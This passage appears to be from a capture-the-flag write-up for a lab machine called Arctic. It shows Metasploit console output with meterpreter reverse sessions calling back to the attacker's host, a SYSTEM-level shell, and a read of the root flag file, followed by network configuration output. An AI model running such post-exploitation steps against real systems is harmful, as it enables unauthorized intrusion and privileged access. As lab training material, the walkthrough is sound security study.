 ```powershell
Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x86/windows  ARCTIC\tolis @ ARCTIC         10.10.14.14:443 -> 10.10.10.11:50238 (10.10.10.11)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ARCTIC  10.10.14.14:443 -> 10.10.10.11:50256 (10.10.10.11)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 668 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
arctic
ce65ceee66b2b5ebaff07e50508ffb90
Windows IP Configuration

   Host Name . . . . . . . . . . . . : arctic
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-39-9A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.11(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{79F1B374-AC3C-416C-8812-BF482D048A22}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter Local Area Connection* 9:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Teredo Tunneling Pseudo-Interface
```